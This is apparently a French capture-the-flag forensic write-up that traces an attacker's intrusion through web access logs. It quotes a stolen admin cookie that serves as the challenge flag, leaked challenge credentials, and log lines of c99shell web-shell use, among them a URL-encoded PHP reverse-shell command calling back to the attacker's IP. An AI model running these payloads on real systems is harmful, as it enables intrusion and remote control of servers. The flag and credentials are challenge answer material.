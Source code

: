 On voit l’exfiltration de l’attaquant, il a volé le cookie de session de “admin”, manque de chance il peut l’utiliser direct pour se log, upload un fichier php qui wget un reverse shell et il y accède pour avoir un foothold

Dans le fichier secret de la fuite de donnée il y a des creds pour un utilisateur “observateur” qui a le droit de voir les fichiers mais pas d’upload:

ob4shadow - 5H@D0W_4_0853rV470r

C’est donc comme cela que l’attaquant a pu accéder à la page admin.php et tenter des injections SQL.

La db est sur 174.10.50.11 d’après config.php

Cookie admin exfiltré (le flag en fait si on met DGHACK{} autour):

b86eb8dae7809614b94dda9116a68f4a71a25cfe9e9a0b4f53621d87110930848204f157efc3defd5afb5b8b2fb9f6f560d26dc425532f1a77bc8ae3e07fcfc6

L’ip de l’attaquant est 174.10.50.30 d’après les logs d’accès.

```html
/c99shell.php?act=cmd&d=%2Fvar%2Fwww%2Fshadow4dga%2F&cmd=php+-r+%27%24sock%3Dfsockopen%28%22174.10.50.30%22%2C2222%29%3Bexec%28%22%2Fbin%2Fbash+-i+%3C%263+%3E%263+2%3E%263%22%29%3B%27&cmd_txt=1&submit=Execute
```

Actions de l’attaquant avec c99shell.php

```html
174.10.50.30 - - [17/Jun/2022:21:45:46 +0200] "GET /c99shell.php HTTP/2.0" 200 4225 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:21:45:52 +0200] "GET /c99shell.php?act=f&f=c99shell.php&d=%2Fvar%2Fwww%2Fshadow4dga& HTTP/2.0" 200 70723 "https://174.10.50.1/" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:21:46:02 +0200] "GET /c99shell.php? HTTP/2.0" 200 4224 "https://174.10.50.1/" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:21:46:15 +0200] "GET /c99shell.php?act=cmd&d=%2Fvar%2Fwww%2Fshadow4dga%2F&cmd=chmod+777+c99shell.php&cmd_txt=1&submit=Execute HTTP/2.0" 200 3042 "https://174.10.50.1/" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:21:46:19 +0200] "POST /c99shell.php? HTTP/2.0" 200 3042 "https://174.10.50.1/" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:21:46:20 +0200] "GET /c99shell.php? HTTP/2.0" 200 4220 "https://174.10.50.1/" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:21:46:46 +0200] "GET /c99shell.php?act=cmd&d=%2Fvar%2Fwww%2Fshadow4dga%2F&cmd=echo+%27HACKED+BY+HACKER.COM%27&cmd_txt=1&submit=Execute HTTP/2.0" 200 3054 "https://174.10.50.1/" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:21:46:50 +0200] "GET /c99shell.php? HTTP/2.0" 200 4222 "https://174.10.50.1/" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:21:57:26 +0200] "GET /c99shell.php HTTP/2.0" 200 4221 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [17/Jun/2022:22:07:47 +0200] "GET /c99shell.php?act=cmd&d=%2Fvar%2Fwww%2Fshadow4dga%2F&cmd=php+-r+%27%24sock%3Dfsockopen%28%22174.10.50.30%22%2C2222%29%3Bexec%28%22%2Fbin%2Fbash+-i+%3C%263+%3E%263+2%3E%263%22%29%3B%27&cmd_txt=1&submit=Execute HTTP/2.0" 504 5143 "https://174.10.50.1/" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
174.10.50.30 - - [18/Jun/2022:02:06:47 +0200] "GET /c99shell.php HTTP/2.0" 200 4220 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0" "-"
```
